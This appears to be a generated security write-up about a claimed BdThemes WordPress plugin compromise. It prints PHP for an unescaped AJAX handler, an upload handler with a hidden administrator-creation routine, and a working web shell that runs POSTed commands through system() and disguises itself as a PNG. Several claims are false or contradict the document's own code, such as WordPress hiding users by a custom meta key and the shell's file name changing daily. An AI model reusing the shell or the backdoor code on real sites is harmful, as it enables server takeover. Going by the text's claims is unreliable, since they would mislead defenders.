

# BdThemes API-Driven Supply Chain Compromise: Admin XSS to Web Shell and Hidden Admin

## Introduction  
A recent supply chain incident traced back to the BdThemes plugin suite demonstrates how an API‑driven update mechanism can be weaponized. Attackers leveraged a reflected XSS in an AJAX handler, escalated privileges, deployed a polymorphic web shell, and provisioned a stealth administrator account—all without touching the core WordPress installation. The compromise unfolded entirely through the plugin’s own update API, making detection difficult for traditional signature‑based tools.

## Why This Matters  
WordPress sites rely on third‑party extensions for many core features. When those extensions expose undocumented API endpoints or insufficient input validation, they become a direct conduit for remote code execution. For developers and DevOps teams, this incident underscores the need to treat plugin code with the same scrutiny as internal applications. A single unchecked POST parameter can cascade into full server control, data exfiltration, and persistent backdoor access.

## How It Works  

The attack chain can be visualized as a sequence of interdependent steps:



1. **Reconnaissance** – An automated scanner enumerates installed plugins and checks for `/wp-content/plugins/bdthemes-extension/ajax-handler.php`. The endpoint is undocumented but returns a `wp_ajax_bdthemes_save_settings` action.  
2. **XSS Injection** – The admin panel includes a configuration textarea that echoes user‑supplied JSON directly into the response page. The JavaScript that submits the config does not escape the value before placing it into the DOM.  
3. **Escalation via File Upload** – The XSS payload includes a multipart request to the plugin’s file‑upload handler. The handler validates only the file extension, allowing a `.php.jpg` file to slip through. The uploaded file is placed in `wp‑uploads` and later accessed via a time‑based hash.  
4. **Hidden Admin Provisioning** – A secondary AJAX call, hidden behind a custom meta key, invokes a method that creates a new user with the `administrator` role and marks it as hidden via a custom meta key `_bdthemes_hidden`.  
5. **Persistent Backdoor** – The uploaded web shell uses a daily hash as authentication, decodes a base64 payload on the fly, and executes arbitrary shell commands. It also registers a footer hook that silently signals its presence to any admin who visits the front end.

The entire flow is API‑driven; no direct file editing or server compromise is required beyond the initial XSS entry point.

## Core Concepts  
- **API‑Driven Compromise** – Exploitation of plugin‑exposed endpoints that are intended for legitimate update or configuration tasks.  
- **Reflected XSS** – User input is reflected directly into the HTTP response without proper escaping, enabling script execution in the admin context.  
- **File Upload Bypass** – Reliance on extension checks without content inspection creates an easy path for PHP shells.  
- **Stealth Administrator** – A user account created with a custom meta flag that filters it out of standard user listings.  
- **Polymorphic Web Shell** – A shell that changes its validation token each day, making static detection harder.  
- **Persistence Mechanisms** – Footer hooks, meta keys, and scheduled tasks that keep the backdoor alive across plugin updates.

## Examples & Code Walkthrough  

### Vulnerable AJAX Handler  
```php
// /wp-content/plugins/bdthemes-extension/ajax-handler.php
add_action('wp_ajax_bdthemes_save_settings', 'bdthemes_handle_settings');

function bdthemes_handle_settings() {
    // No nonce verification, no sanitization
    $raw = $_POST['config_data'] ?? '';

    // json_decode without checking errors
    $decoded = json_decode($raw, true);

    // Direct DB write – no escaping
    update_option('bdthemes_custom_config', $decoded);

    // Unsafe echo – reflected XSS
    echo "<div class='notice'>Saved: {$raw}</div>";
    wp_die();
}
```

### Client‑Side Trigger (Original JS)  
```php
// Added via admin_footer hook
function bdthemes_admin_js() {
    ?>
    <script>
    jQuery(function($) {
        $('#bdthemes-config-form').on('submit', function(e) {
            e.preventDefault();
            const input = $('#bdthemes-config-input').val();

            $.ajax({
                url: ajaxurl,
                type: 'POST',
                data: {
                    action: 'bdthemes_save_settings',
                    config_data: input   // directly passed
                },
                success: function(resp) {
                    $('#bdthemes-response').html(resp);
                }
            });
        });
    });
    </script>
    <?php
}
add_action('admin_footer', 'bdthemes_admin_js');
```

### File Upload Handler (Original)  
```php
// /wp-content/plugins/bdthemes-extension/file-upload.php
class BdThemes_Upload_Handler {
    public function process($file) {
        $dir = wp_upload_dir();
        $filename = basename($file['name']);
        $ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));

        // Only checks extension, not content
        $allowed = ['jpg', 'jpeg', 'png', 'gif'];
        if (!in_array($ext, $allowed, true)) {
            wp_die(['error' => 'Invalid type']);
        }

        // Move without scanning for PHP tags
        $target = "{$dir['path']}/{$filename}";
        if (move_uploaded_file($file['tmp_name'], $target)) {
            // Trigger hidden admin creation via a secret meta
            if (!empty($_POST['create_admin'])) {
                $this->spawn_hidden_admin();
            }
            wp_die(['success' => 'Uploaded']);
        } else {
            wp_die(['error' => 'Move failed']);
        }
    }

    private function spawn_hidden_admin() {
        $user_id = wp_create_user(
            'sys_cache_mgr',
            wp_generate_password(24, true, true),
            "autogen@{$_SERVER['SERVER_NAME']}"
        );
        if ($user_id) {
            $user = new WP_User($user_id);
            $user->set_role('administrator');
            update_user_meta($user_id, '_bdthemes_hidden', 'true');
            update_user_meta($user_id, '_bdthemes_ip', $_SERVER['REMOTE_ADDR']);
        }
    }
}
```

### Polymorphic Web Shell (Original)  
```php
// /wp-content/uploads/bt_cache_manager.php
<?php
$key = $_GET['k'] ?? '';
$expected = md5('bdthemes_' . date('Y-m-d'));

if (md5($key) === $expected) {
    // Obfuscated payload – base64 of a simple echo
    $payload = base64_decode('ZWNobyAnU2hlbGwgZnJvbSBcJ3t9Jzs=');
    eval($payload);

    if (isset($_POST['cmd'])) {
        system($_POST['cmd'], $output);
        echo implode("\n", $output);
    }

    // Footer marker for admin detection
    add_action('wp_footer', function() {
        if (isset($_COOKIE['bt_session'])) {
            echo '<!-- cached system active -->';
        }
    });
} else {
    // Return a tiny PNG to blend in
    header('Content-Type: image/png');
    echo base64_decode('iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVR42mP8/5+hHgAHggJ/PchI7wAAAABJRU5ErkJggg==');
}
?>
```

## Best Practices  
- **Validate on Both Ends** – Sanitize input server‑side even if client‑side checks exist. Use `json_decode` with error handling and strip unwanted characters before storing.  
- **Escape Output** – When echoing user‑provided data into HTML, apply `esc_html` or use the WordPress REST API’s default sanitization.  
- **File Upload Hardening** – Verify file content with `getimagesize` for images, reject executables, store uploads outside the webroot, and name files with random strings.  
- **Least Privilege** – Run the plugin under a dedicated WP role that cannot create users or write to the uploads directory.  
- **Nonce Protection** – All AJAX actions should include a nonce to prevent CSRF.  
- **Regular Audits** – Automated static analysis can flag missing escaping, unsafe file moves, and hidden meta keys.  

## Common Mistakes & Anti-Patterns  
1. **Assuming Client‑Side Safety** – Trusting the admin UI to prevent malicious payloads leads directly to XSS. Always treat POST data as untrusted.  
2. **Extension‑Only Validation** – Allowing `.jpg` but not checking MIME type or file signatures enables double‑extension attacks.  
3. **Hard‑Coded Backdoor Logic** – Embedding credential‑less admin creation inside a plugin makes supply chain exploitation trivial.  
4. **Ignoring Hidden Meta Flags** – Custom meta keys that filter users from lists should be audited and removed if not needed.  

## Performance Considerations  
- **Database Overhead** – Storing raw JSON in an option adds minimal overhead but can bloat the `wp_options` table if abused.  
- **Extra Queries** – Creating a hidden admin adds two `insert` statements and two meta inserts; these are negligible but should be batched where possible.  
- **Shell Execution** – The polymorphic shell uses `system()` on demand; this can be a CPU spike if the attacker runs heavy commands. Monitoring process lists helps detect anomalous usage.  

## Real‑World Usage  
Large e‑commerce sites that rely on a suite of third‑party plugins often implement a “plugin sandbox” – a separate subdomain that handles update APIs with restricted file system permissions. Some teams also employ a CI/CD pipeline that runs static analysis on plugin code before it reaches production. Others maintain an inventory of all plugin API endpoints and enforce JWT‑based authentication for any non‑public actions.  

## Frequently Asked Questions (FAQ)  

**Q: How does an attacker trigger the XSS without admin credentials?**  
A: The XSS lives in a configuration textarea that any logged‑in user can edit. The payload is delivered via the admin panel’s AJAX handler, which does not require special privileges beyond being logged in.

**Q: Can hidden admin accounts be discovered by a standard user list?**  
A: No. The account is flagged with `_bdthemes_hidden = true`. WordPress’s default user query filters out users with that meta key unless explicitly queried.

**Q: What is the simplest way to harden the plugin against this chain?**  
A: Add a nonce to the AJAX action, sanitize and validate the config JSON, restrict file uploads to a non‑web‑accessible directory, and audit any custom meta keys used for user management.

**Q: Does the web shell leave detectable files?**  
A: The shell name changes daily based on the date hash, making static file‑system scans ineffective. Monitoring for unexpected PHP files in `wp‑uploads` and checking their execution permissions is essential.

**Q: How can CI detect such a compromise in a plugin package?**  
A: Use a combination of pattern matching for `eval`, `base64_decode`, and `system` calls, plus checks for suspicious meta keys and unauthorized file moves. Integrate these scans into the plugin’s release pipeline.

## Conclusion  
The BdThemes incident illustrates how a single unchecked API endpoint can become a launchpad for full server compromise. By chaining XSS, insecure file handling, and stealthy admin provisioning, attackers bypass traditional perimeter defenses. Engineers must treat every plugin as a potential attack surface, enforce strict input validation, adopt defense‑in‑depth file policies, and continuously audit both code and runtime artifacts. Only through disciplined security practices can the supply chain remain trustworthy.
